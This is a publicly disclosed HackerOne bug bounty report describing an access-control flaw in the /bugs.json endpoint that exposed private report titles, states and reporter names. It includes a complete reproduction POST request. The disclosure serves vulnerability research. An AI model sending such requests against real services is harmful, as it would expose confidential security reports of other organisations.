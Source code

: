 # Insecure Direct Object Reference (IDOR) Allows Viewing Private Report Details via /bugs.json Endpoint

## Report Details
- **Report ID**: 2487889
- **URL**: https://hackerone.com/reports/2487889
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2024-05-02T21:18:47.284Z
- **Disclosed**: 2024-05-23T20:24:06.125Z

## Reporter
- **Username**: bate5a
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
### Hi H1 i hope you are Doing Well Today :)



### Explaining

* I Found that any private reports can be accessed by sending a POST request to the `/bugs.json` endpoint. This vulnerable endpoint requires `organization_id`, which takes the organization's ID as a value. It also requires `text_query`, which is used to search for report IDs. within this  org  , Now you can append the example organization ID mentioned on the policy page, `58579`. and For the `text_query`, you can simply append a single digit, such as 1, or any other single number. This will query all reports containing this digit, provided they belong to the specified organization



### Step To Reproduce 

1.Send a POST request to this endpoint. You can change the organization_id to anything, but leave it as it is 

```

POST /bugs.json HTTP/2
Host: hackerone.com
Cookie:  __Host-session=Your-Session-Here
X-Csrf-Token: Your-Csrf-Here
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Te: trailers
Content-Length: 390

text_query=1&organization_id=58579&persist=true&sort_type=pg_search_rank&view=message&substates%5B%5D=new&substates%5B%5D=needs-more-info&substates%5B%5D=triaged&substates%5B%5D=resolved&substates%5B%5D=informative&substates%5B%5D=not-applicable&substates%5B%5D=duplicate&substates%5B%5D=retesting&substates%5B%5D=pending-program-review&substates%5B%5D=spam&duplicates_must_have_no_ref=true

```




### Poc Video

█████████

## Impact

idor lead to view private reports `title`,`url`,`id`,`state`,`substate`,`severity_rating`,`readable_substate`,`created_at`,`submitted_at`,`reporter_name`

## Attachments
No attachments
